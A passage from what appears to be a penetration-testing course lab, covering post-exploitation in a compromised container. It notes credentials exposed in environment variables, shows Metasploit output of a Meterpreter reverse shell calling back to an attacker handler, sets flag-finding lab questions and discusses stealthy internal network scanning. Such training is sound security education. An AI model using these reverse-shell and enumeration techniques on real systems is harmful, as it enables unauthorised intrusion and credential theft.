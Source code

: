 > Listing 36 - Reviewing Environment Variables

In this output, we find several secrets: an _ADMIN_USERNAME_ and _ADMIN_PASSWORD_, _SECRET_KEY_, and _GPG_KEY_. We don't know what these could be used for currently, but we'll make note of them for now.

It's important to note that our current session might die during enumeration or any other part of our journey. This is because the service regularly restarts. However, when the service starts up again, a new meterpreter session should start immediately. We'll just have to switch to that session by running **sessions -i** along with the _session ID_.

```
[*] 172.18.0.4 - Meterpreter session 2 closed.  Reason: Died

[*] Sending stage (24772 bytes) to 198.18.53.73

[*] Meterpreter session 3 opened (10.0.1.54:4488 -> 198.18.53.73:60146)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter >
```

> Listing 37 - Closed and Reopened Meterpreter Sessions

In the real world, enumeration would continue on this container. We still have to explore the source code we discovered, the database for the application, and much more. However, we'll leave these as independent exercises and instead move on to scanning the network for other services.

#### Labs

1. Discover the environment variable with the flag in the container.

Answer

2. According to **/etc/os-release**, what operating system is used for the production server?

Answer

3. Read the contents of the _SQLite Database_ and find the flag in one of the links

Answer

## 5.5.2. Scanning the Network

Gaining access to this container has opened a world of new information for us to target. As found in the network listing, we've discovered multiple interfaces on this container. This is particularly interesting to us, since adding an interface means there's most likely something on the other end for us to discover. Security is often lax with services available on these private networks, since organizations trust that the private network is private or that authentication will be handled by a reverse proxy. Because of this, if we have direct access to the service, we can often bypass any additional layer of security.

_Nmap_ would be a great tool for us to use. However, it would need to be installed on the target, or we would need to install it ourselves. Being that this is a container, Nmap is most likely not installed, and installing additional packages can be difficult or undesirable for stealth.
